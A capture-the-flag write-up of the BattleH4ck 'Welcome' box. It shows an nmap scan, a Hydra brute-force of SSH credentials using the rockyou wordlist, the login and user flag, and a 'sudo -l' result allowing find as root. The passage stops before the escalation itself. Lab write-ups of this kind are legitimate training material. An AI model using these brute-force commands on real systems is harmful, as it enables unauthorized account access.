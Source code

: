 ```yaml
---
title: "BattleH4ck: Easy - Welcome"
description: Welcome box solve
slug: battlehack_welcome
date: 2023-10-03 00:00:00+0000
image: images/welcome-cover.jpg
translationKey: battlehack_welcome
categories:
    - BattleH4ck
tags:
    - Linux
    - Pentest
weight: 1       
---
```

![image](https://user-images.githubusercontent.com/69204254/216841932-afe72fcb-e88d-4654-93f7-012e89faf17a.png)

## Given data

By reading the description of the mission, we can see that we need to connect to the machine by knowing that:

- The username *should* be **seela**
- The password *used* is **weak**
- IP address: 10.42.20.52

## Foothold

### Port scan

First, we need to know what services are open to us on the machine.
To do this, we will use *nmap*:

```bash
└─$ nmap 10.42.20.52 -T4 -sC -sV
```

```bash
Nmap scan report for 10.42.20.52
Host is up (0.064s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:c2:f2:9c:8f:17:5d:66:9a:90:c9:e9:b3:1a:0a:bc (RSA)
|   256 ea:73:61:43:b8:7d:db:88:2b:d7:a8:16:39:49:b6:40 (ECDSA)
|_  256 be:5e:54:f8:6d:3c:de:7d:53:17:99:08:65:0c:34:a0 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 3.00 seconds
```

We can see that there is one open port which is SSH.
By remembering the given data, we have: 

- a username which *should* be **seela**
- a password which is *used* is **weak**

Before we continue, let's look at the used verbs.
There are "should" and "used".
When we look at the sentence about the password. There is the word "used" which is a bit confusing.
There are two possibilities of interpretation :

- **weak** is the password
- the password is weak, like to easy to guess

To know if the password is equal to **weak**, we should try to connect with it and with the username **seela**.
(The username is not that confusing, because it doesn't mean anything)

To connect to the machine by using our data, we can use **ssh**:

```bash
└─$ ssh seela@10.42.20.52
seela@10.42.20.54's password: weak
```

```bash
Permission denied, please try again.
```

By being denied, we can understand that our password is not equal to "weak" but is weak, like easy to guess.

### Bruteforce seela's password

To find the password used by seela, as Google says, we can use an attack called "bruteforce".
![image](https://user-images.githubusercontent.com/69204254/216843124-4edabd84-d823-4160-99b9-cc1e70e4f314.png)

In the first link: `https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/`
We can find that there is a tool called "Hydra" which can help us in this situation.
The website tells us that we need a username and a wordlist.
To know what wordlist we should use, we can try to ask google which one can be good to try.
![image](https://user-images.githubusercontent.com/69204254/216844703-e851e499-3d64-436c-aa13-1046feaed78f.png)

By looking at the first link, we can read that the wordlist rockyou can be good to try.
If you own a Kali Linux, rockyou can be found in /usr/share/wordlist/rockyou.txt.gz (you can also type the command: wordlists).

Right now, rockyou in gziped, to extract it, we can use **gunzip**, by doing:

```bash
└─$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Now we have a wordlist, let's run Hydra !

```bash
└─$ hydra -l seela -P /usr/share/wordlists/rockyou.txt ssh://10.42.20.52 -t 4
```

```bash
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.42.20.54:22/
[22][ssh] host: 10.42.20.54   login: seela   password: rockyou
1 of 1 target successfully completed, 1 valid password found
```

We got our password, which **rockyou** !

Let's try to connect to the machine the same way we used to do:

```bash
└─$ ssh seela@10.42.20.52
seela@10.42.20.54's password: rockyou
```

```bash
Linux welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw 5.15.0-39-generic #42-Ubuntu SMP Thu Jun 9 23:42:32 UTC 2022 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$
```

As we can see, we are now connected !
The first flag is in the directory in which we are:

```bash
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$ ls -l
```

```bash
total 4
-rw-r--r-- 1 root root 17 Feb  5 20:23 user.txt
```

```bash
└─$ cat user.txt
```

```bash
FLAG{someCharacters}
```

## Privilege Escalation

```bash
seela@welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:~$ sudo -l
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for seela: rockyou
```

```txt
Matching Defaults entries for seela on welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seela may run the following commands on welcome-fb9c8a3a-e8e7-4841-801e-2855d61875c0-5b4df8d557-kpmdw:
    (root) /usr/bin/find *
```
